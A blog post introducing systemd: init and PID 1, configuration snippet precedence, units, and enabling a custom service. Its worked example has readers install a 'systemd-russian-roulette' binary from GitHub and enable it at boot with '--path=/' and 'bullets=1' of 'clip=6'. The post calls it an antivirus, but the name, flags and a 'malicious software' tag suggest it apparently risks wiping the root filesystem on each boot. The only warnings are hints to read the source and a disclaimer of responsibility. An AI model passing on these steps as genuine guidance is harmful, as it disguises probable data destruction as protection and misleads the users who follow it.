 ```yaml
---
title: "Systemd Introduction"
date: 2023-08-25T20:08:47Z
draft: false
cover:
  image: /img/systemd-logo.svg
  alt: "Systemd Logo"
  caption: "Systemd Logo"
categories: ["System Administration"]
tags: ["systemd", "malicious software"]
---
```


In this post, I'll provide a concise introduction to systemd, giving you just enough information to get started without
overwhelming you.

## What is systemd?

systemd is a Linux **system** and **service** manager that serves as the default init system for the majority of Linux
distributions. During system boot, the kernel initiates the "init" process, which is responsible for launching
additional processes and overseeing the overall system management. Additionally, systemd performs various cool
things such as 
[managing orphaned processes and terminating zombie processes](https://stackoverflow.com/questions/20688982/zombie-process-vs-orphan-process).
```
                                                          +-------------------+
                                                          |                   |
                                                          |                   |
                                          +-------------> |       PID 2       |
                                          |               |                   |
                                          |               |                   |
                                          |               +-------------------+
                                          |
+-------------------+           +-------------------+     +-------------------+
|                   |           |                   |     |                   |
|                   |  (loads)  |                   |     |                   |
|      Kernel       | --------> |   Init (PID 1)    | --> |       PID 3       |
|                   |           |                   |     |                   |
|                   |           |                   |     |                   |
+-------------------+           +-------------------+     +-------------------+
                                          |
                                          |               +-------------------+
                                          |               |                   |
                                          |               |                   |
                                          +-------------> |       PID N       |
                                                          |                   |
                                                          |                   |
                                                          +-------------------+
```

Beyond being an init system, systemd offers an array of features, including:
- **systemd-journald** - A system service responsible for gathering and storing logging data.
- **systemd-networkd** - A system service dedicated to network management.
- **systemd-logind** - A system service that handles user logins.

Most features can be accessed and managed through command line tools, D-Bus interfaces, or **configuration files**.


### Configuration files

Usually found in `/etc/systemd/` (which is expected, given that `/etc/` is commonly used for storing configuration files).
If you place some snippets configuration files in other locations (with the location depending on the service), they can
replace settings in the main files. The order these files are parsed determines the overriding, with the snippets
consistently taking precedence over the main configuration file.

Take the example of [resolve.conf](https://www.freedesktop.org/software/systemd/man/resolved.conf.html), you have the following paths:
```
/etc/systemd/resolved.conf.d/*.conf
/run/systemd/resolved.conf.d/*.conf
/usr/lib/systemd/resolved.conf.d/*.conf
```

The choices within each configuration file vary based on the specific target service. To gain a clearer understanding
of what's possible with each service, you should to refer to the dedicated [documentation](https://www.freedesktop.org/software/systemd/man/).

## Custom service

We'll create our own service and utilize systemd to run it upon boot. The service will be named `systemd-russian-roulette.service`,
keep that in mind. However, before we proceed, there are a few concepts we should familiarize ourselves with.

You have two options: you can either go through the [description](https://www.freedesktop.org/software/systemd/man/systemd.unit.html#Description)
or simply tag along with me. The choice is yours!

### Units

A unit in systemd refers to any entity that is managed by the system, such as services, devices, mount points, sockets,
swap files, and more. Each unit finds its definition within a unit file—a configuration file. Unit files can be placed
in different locations, according to the unit's role or originator. You can examine the default paths for user and system
units by referring to the information [here](https://www.freedesktop.org/software/systemd/man/systemd.unit.html#Unit%20File%20Load%20Path). 

Our service `systemd-russian-roulette.service` will reside in the `/etc/systemd/system/` directory. In our context, there's no need for complex configurations.

To begin, let's install the required dependencies for our service:
```bash
# cargo
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
# systemd-russian-roulette
cargo install --git https://github.com/dcavalei/systemd-russian-roulette.git --root /tmp && sudo mv /tmp/bin/systemd-russian-roulette /usr/bin
```

### Enable / Disable services

With the dependencies in place, we're ready to move forward and configure our `systemd-russian-roulette.service`.
```
[Unit]
Description=The systemd russian roulette service.

[Service]
Type=oneshot
RemainAfterExit=true
ExecStart=/usr/bin/systemd-russian-roulette --clip=6 --bullets=1 --path=/

[Install]
WantedBy=multi-user.target
```

With the service installed, the final step is to enable it on the system:
```bash
sudo systemctl enable systemd-russian-roulette
```
Executing this command will generate a symbolic link of our service within the directories designated by the `[Install]`
targets (`multi-user.target`).

Disabling the service is as straightforward as removing the symbolic link, although it's advisable to do it via command-line tool:
```bash
sudo systemctl disable systemd-russian-roulette
```

From this point onward, each time your system boots up, `systemd-russian-roulette.service` will initiate, safeguarding your
system against potential threats posed by malicious users.

I strongly recommend checking the [source code](https://github.com/dcavalei/systemd-russian-roulette/blob/main/src/main.rs).
Be aware that this antivirus is currently undergoing development, so occasional crashes may occur. Please note that any
resulting issues or harm are not under my responsibility.

## Conclusion

Again... I **strongly** recommend checking the [source code](https://github.com/dcavalei/systemd-russian-roulette/blob/main/src/main.rs) before installing this service.

